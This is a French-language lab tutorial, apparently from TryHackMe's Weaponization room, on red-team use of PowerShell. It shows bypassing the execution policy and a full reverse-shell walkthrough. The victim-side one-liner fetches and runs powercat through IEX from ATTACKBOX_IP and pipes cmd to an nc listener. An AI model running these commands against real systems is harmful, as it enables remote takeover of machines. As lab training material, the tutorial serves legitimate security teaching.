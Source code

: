 PowerShell (PSH)
==========================

PowerShell est un langage de programmation orienté objet exécuté à partir du Dynamic Language Runtime (DLR) dans  .NET avec quelques exceptions pour les utilisations héritées. Consultez la salle TryHackMe,[Hacking with PowerShell pour plus d'informations sur PowerShell](https://tryhackme.com/room/powershell).

Les équipes rouges s'appuient sur PowerShell pour effectuer diverses activités, notamment l'accès initial, les énumérations système et bien d'autres. Commençons par créer un script PowerShell simple qui imprime « Bienvenue dans la salle de militarisation ! » comme suit,

```
Write-Output "Welcome to the Weaponization Room!"
```

Enregistrez le fichier sous  thm.ps1 . Avec  Write-Output , nous imprimons le message "Welcome to the Weaponization Room!" à l'invite de commande. Maintenant, exécutons-le et voyons le résultat.

CMD

```
C:\Users\thm\Desktop>powershell -File thm.ps1
File C:\Users\thm\Desktop\thm.ps1 cannot be loaded because running scripts is disabled on this system. For more
information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
    + CategoryInfo          : SecurityError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : UnauthorizedAccess

C:\Users\thm\Desktop>

```

Politique d'exécution

La politique d'exécution de PowerShell est une  option de sécurité pour protéger le système contre l'exécution de scripts malveillants. Par défaut, Microsoft désactive l'exécution des scripts PowerShell .ps1 pour des raisons de sécurité. La stratégie d'exécution de PowerShell est définie sur Restricted , ce qui signifie qu'elle autorise les commandes individuelles mais n'exécute aucun script.

Vous pouvez déterminer le paramètre PowerShell actuel de votre Windows comme suit,

CMD

```
PS C:\Users\thm> Get-ExecutionPolicy
Restricted
```

Nous pouvons également modifier facilement la politique d'exécution de PowerShell en exécutant :

CMD

```
PS C:\Users\thm\Desktop> Set-ExecutionPolicy -Scope CurrentUser RemoteSigned

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
http://go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes [A] Yes to All [N] No [L] No to All [S] Suspend [?] Help (default is "N"): A
```

Contourner la politique d'exécution

Microsoft fournit des moyens de désactiver cette restriction. L'une de ces façons consiste à donner une option d'argument à la commande PowerShell pour la modifier selon le paramètre souhaité. Par exemple, nous pouvons le changer pour contourner la politique, ce qui signifie que rien n'est bloqué ou restreint. Ceci est utile car cela nous permet d'exécuter nos propres scripts PowerShell .

Afin de nous assurer que notre fichier PowerShell est exécuté, nous devons fournir l'option de contournement dans les arguments comme suit,

CMD

```
C:\Users\thm\Desktop>powershell -ex bypass -File thm.ps1
Welcome to Weaponization Room!
```

Maintenant, essayons d'obtenir un reverse shell en utilisant l'un des outils écrits en PowerShell , qui est powercat . Sur votre AttackBox, téléchargez-le depuis GitHub et exécutez un serveur Web pour fournir la charge utile.

Terminal

```
user@machine$ git clone https://github.com/besimorhino/powercat.git
Cloning into 'powercat'...
remote: Enumerating objects: 239, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 239 (delta 0), reused 2 (delta 0), pack-reused 235
Receiving objects: 100% (239/239), 61.75 KiB | 424.00 KiB/s, done.
Resolving deltas: 100% (72/72), done.
```

Maintenant, nous devons configurer un serveur Web sur cette AttackBox pour servir le powercat.ps1 qui sera téléchargé et exécuté sur la machine cible. Ensuite, changez le répertoire en powercat et commencez à écouter sur un port de votre choix. Dans notre cas, nous utiliserons le port  8080 .

Terminal

```
user@machine$ cd powercat
user@machine$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

Sur l'AttackBox, nous devons écouter sur le port 1337 en utilisant nc pour recevoir la connexion de la victime.

Terminal

```
user@machine$ nc -lvp 1337
```

Maintenant, à partir de la machine victime, nous téléchargeons la charge utile et l'exécutons à l'aide de la charge utile PowerShell comme suit,

Terminal

```
C:\Users\thm\Desktop> powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"
```

Maintenant que nous avons exécuté la commande ci-dessus, la machine victime télécharge la  charge utile powercat.ps1  depuis notre serveur Web (sur l'AttackBox), puis l'exécute localement sur la cible à l'aide de cmd.exe et renvoie une connexion à l'AttackBox qui écoute sur le port 1337 . Après quelques secondes, nous devrions recevoir le rappel de connexion :   

Terminal

```
user@machine$ nc -lvp 1337  listening on [any] 1337 ...
10.10.12.53: inverse host lookup failed: Unknown host
connect to [10.8.232.37] from (UNKNOWN) [10.10.12.53] 49804
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\thm>
```
